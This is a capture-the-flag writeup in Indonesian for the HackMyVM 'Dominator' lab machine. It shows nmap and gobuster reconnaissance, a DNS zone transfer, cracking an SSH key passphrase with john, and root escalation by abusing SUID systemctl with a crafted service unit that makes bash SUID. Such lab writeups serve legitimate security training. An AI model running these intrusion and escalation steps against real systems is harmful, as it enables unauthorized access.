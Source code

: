 ```yaml
---
layout: Post
title: HackMyVM - Dominator Writeup
date: 2021-10-21 10:33 WIB  
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://downloads.hackmyvm.eu/dominator.zip">Texte</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/d4t4s3c">d4t4s3c</a></h4>

## NMAP

Oke seperti biasa pertama yang kita lakukan ialan scan port yang ada di dalam vm tersebut dengan `nmap` :

```console
──(kiyo㉿alpacentauri)-[~/Web Attack/HackMyVM/DOminator]
└─$ nmap -A -p- 192.168.0.199
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-21 09:59 WIB
Nmap scan report for dominator.hmv (192.168.0.199)
Host is up (0.00062s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
53/tcp    open  domain  (unknown banner: not currently available)
| dns-nsid: 
|_  bind.version: not currently available
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    currently available
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
65222/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:ea:48:1a:a3:46:0b:bd:ac:47:73:e8:78:25:af:42 (RSA)
|   256 2e:41:ca:86:1c:73:ca:de:ed:b8:74:af:d2:06:5c:68 (ECDSA)
|_  256 33:6e:a2:58:1c:5e:37:e1:98:8c:44:b1:1c:36:6d:75 (ED25519)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.91%I=7%D=10/21%Time=6170D7A2%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,52,"\0P\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\
SF:x04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x18\x17not\x20curre
SF:ntly\x20available\xc0\x0c\0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

Next setelah kita tahu adanya port 80, kita scan directory apa saja yang ada di web tersebut dengan `gobuster` :

```console
┌──(kiyo㉿alpacentauri)-[~/Web Attack/HackMyVM/DOminator]
└─$ gobuster dir -u http://192.168.0.199 -x php,html,js,txt,png,jpg -w ~/Downloads/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.199
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kiyo/Downloads/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,png,jpg,php,html,js
[+] Timeout:                 10s
===============================================================
2021/10/21 09:45:57 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10701]
/robots.txt           (Status: 200) [Size: 14]   
/server-status        (Status: 403) [Size: 278]  
===============================================================
```

Oke next kita lihat apa si isi dari robots.txt dan ternyata terdapat kata `dominator.hmv`. Oleh karena itu ku coba dig untuk mencari informasi :

```console
┌──(kiyo㉿alpacentauri)-[~/Web Attack/HackMyVM/DOminator]
└─$ dig axfr @192.168.0.199 dominator.hmv                                                                                                                           1 ⨯

; <<>> DiG 9.16.15-Debian <<>> axfr @192.168.0.199 dominator.hmv
; (1 server found)
;; global options: +cmd
dominator.hmv.		604800	IN	SOA	ns1.dominator.hmv. root.dominator.hmv. 2 604800 86400 2419200 604800
dominator.hmv.		604800	IN	NS	ns1.dominator.hmv.
admin.dominator.hmv.	604800	IN	A	192.168.0.12
ns1.dominator.hmv.	604800	IN	A	127.0.0.1
secret.dominator.hmv.	604800	IN	TXT	"/fhcrefrperg"
www.dominator.hmv.	604800	IN	A	192.168.0.11
dominator.hmv.		604800	IN	SOA	ns1.dominator.hmv. root.dominator.hmv. 2 604800 86400 2419200 604800
;; Query time: 8 msec
;; SERVER: 192.168.0.199#53(192.168.0.199)
;; WHEN: Thu Oct 21 10:15:43 WIB 2021
;; XFR size: 7 records (messages 1, bytes 255)
```

Dan ternyata terdapat cipher ROT13. Oleh karena itu ku coba decode dengan `https://rot13.com/`. Dan terdapatlah :

```console
cipher : /fhcrefrperg
output : /supersecret
```

Oleh karena itu ku buka di website and boom terdapat sebuah ssh key, dan karena itu ku coba bruteforce dengan john :

```console
┌──(kiyo㉿alpacentauri)-[~/Web Attack/HackMyVM/T800]
└─$ /opt/john/run/ssh2john.py hans_key >hash         
                                                                                                                                                        
┌──(kiyo㉿alpacentauri)-[~/Web Attack/HackMyVM/T800]
└─$ john hash                                                                                                                                                     
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
a*****           (hans_key)
3g 0:00:00:04  3/3 0.6607g/s 110044p/s 110044c/s 110044C/s astlee
Session aborted
```

## SSH

Oke next login ssh dan user berhasil di dapetin. Oya sebelumnya file user.txt nya telah dihapus jadi ku cari dengan `find / -name user.txt 2>/dev/null` :

```console
note
hans@Dominator:~$ cat note 

the flag "user.txt" was removed .. maybe it's in the trash or maybe not ..

hans@Dominator:~$ find / -name user.txt 2>/dev/null
/home/hans/.local/share/Trash/files/user.txt
hans@Dominator:~$ head /home/hans/.local/share/Trash/files/user.txt
S**********************
```

Next ku coba cari cara untuk masuk ke shell root :

```console
hans@Dominator:~$ find / -perm -4000 2>/dev/null
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/umount
/usr/bin/systemctl
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Next ternyata terdapat di `systemctl` yang dimana sebuah SUID yang diperbolehkan dieksekusi oleh hans :

```console
hans@Dominator:~$ TF=$(mktemp).service
hans@Dominator:~$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /usr/bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
hans@Dominator:~$ systemctl link $TF
Created symlink /etc/systemd/system/tmp.TqvIU9SlzE.service → /tmp/tmp.TqvIU9SlzE.service.
hans@Dominator:~$ systemctl enable --now $TF
Created symlink /etc/systemd/system/multi-user.target.wants/tmp.TqvIU9SlzE.service → /tmp/tmp.TqvIU9SlzE.service.
hans@Dominator:~$ bash -p
```

And boom dapetlah shell root dan root.txt :

```console
bash-5.0# cd /root
bash-5.0# ls
root.txt
bash-5.0# cat root.txt 
Z**********************
bash-5.0# 
```
